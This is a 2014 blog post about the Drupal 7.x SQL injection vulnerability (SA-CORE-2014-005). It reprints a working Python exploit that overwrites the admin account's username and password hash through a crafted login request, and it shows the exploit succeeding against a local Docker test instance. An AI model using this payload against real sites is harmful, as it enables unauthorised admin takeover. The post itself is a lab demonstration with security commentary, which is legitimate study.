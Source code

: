 ```yaml
---
layout:     post
title:      Compromising Drupal 7.31
date:       2014-11-1 14:00:00
categories:
  - drupal
  - exploits
  - docker

---
```


Recently Drupal (versions 7.x < 7.32) was discovered to have...well a [devastating anonymous remote vulnerability](https://www.drupal.org/SA-CORE-2014-005). There are a lot of fascinating things about this vulnerability, including the fact that it's a one line mistake in a section of the code that is supposed to stop SQL injection attacks, as well as that the Drupal community actually put out a [PSA](https://www.drupal.org/PSA-2014-003) (as in "public service announcement") suggesting that if you have a Drupal site that wasn't upgraded within seven hours of the release of the update that you should consider your site compromised and act accordingly. Wow.

<!-- more -->

### Exploit in the wild!

Pretty quickly "exploits were in the wild", as they say. The wilds of the Internet...which is pretty much all of it.

Here's a Python script that will exploit a Drupal 7.31 site. The original script can be found on [pastebin](http://pastebin.com/nDwLFV3v). There's also a [good blog post](http://www.volexity.com/blog/?p=83) from Volexity which discusses the exploit in more detail.

```bash
#Drupal 7.x SQL Injection SA-CORE-2014-005 https://www.drupal.org/SA-CORE-2014-005
#Creditz to https://www.reddit.com/user/fyukyuk
import urllib2,sys
from drupalpass import DrupalHash # https://github.com/cvangysel/gitexd-drupalorg/blob/master/drupalorg/drupalpass.py
host = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
if len(sys.argv) != 3:
    print "host username password"
    print "http://nope.io admin wowsecure"
hash = DrupalHash("$S$CTo9G7Lx28rzCfpn4WB2hUlknDKv6QTqHaf82WLbhPT2K5TzKzML", password).get_hash()
target = '%s/?q=node&destination=node' % host
post_data = "name[0%20;update+users+set+name%3d\'" \
            +user \
            +"'+,+pass+%3d+'" \
            +hash[:55] \
            +"'+where+uid+%3d+\'1\';;#%20%20]=bob&name[0]=larry&pass=lol&form_build_id=&form_id=user_login_block&op=Log+in"
content = urllib2.urlopen(url=target, data=post_data).read()
if "mb_strlen() expects parameter 1" in content:
        print "Success!\nLogin now with user:%s and pass:%s" % (user, password)
```

There are a couple steps you need to perform to get that script to work, which I won't detail here. Suffice it to say this is one of the easiest exploits I've ever seen, and it'll get you admin on, as far as I know, any Drupal 7.x < 7.32 instance. Oof.

### Exploit a Docker based Drupal instance

In my [last post](/posts/install-docker-ubuntu-14-10/) I talked about using Docker to quickly create a Drupal instance. I'm using one of those instances here to test out the exploit script. In this case Drupal is running on my local computer at 172.17.0.28 via Docker. (_Note this isn't a Docker security issue, it's just that I'm using Docker to quickly create and destroy Drupal instances to test against. Just want to be clear about that._)

I changed the Dockerfile to install ```drupal-7.31``` instead of the default install, which would be the latest version (which as of today is 7.32 and that has the security patch).

When I run it, after making a few changes, I get the below output.

```bash
curtis$ ./drupal-hack.py 172.17.0.28 admin superc00l
starting...
sending payload to 172.17.0.28
Success!
Login now with user:admin and pass:superc00l
```

By default the Drupal docker image sets the login to ```admin``` and the password also to ```admin```. But after running the exploit script as shown above, the password is set to ```superc00l```.

### Conclusion

Drupal has been audited many, many times by different security organizations. In fact that was how this vulnerability was found--by a professional audit. It's one of the most popular content management systems in use, perhaps just behind Wordpress. It has a lot of "eyes" on it in terms of ensuring it's a secure system. And yet, here we are, ~32 releases into Drupal 7 and there are still holes being found.

My point is that Drupal is not insecure, in fact it's probably one of the more secure content management systems available (if only because it's had so many security reviews and is so pouplar; been "battle tested" so to speak) and yet there are still holes found, holes that can cause up to [12 million sites](http://www.bbc.com/news/technology-29846539) to potentially be hacked, because bugs. I think it's easier to write insecure code in PHP than some other languages, but I don't think Drupal's security isses are a PHP issue per se, though some think otherwise.

This suggests that most Drupal sites will need some additional security layers to try to reduce the damage that can occur in case of compromise, as well as processes and procedures to recover from a compromise. Of course, that is easier said than done.

PS. Don't get me started on modules... :)
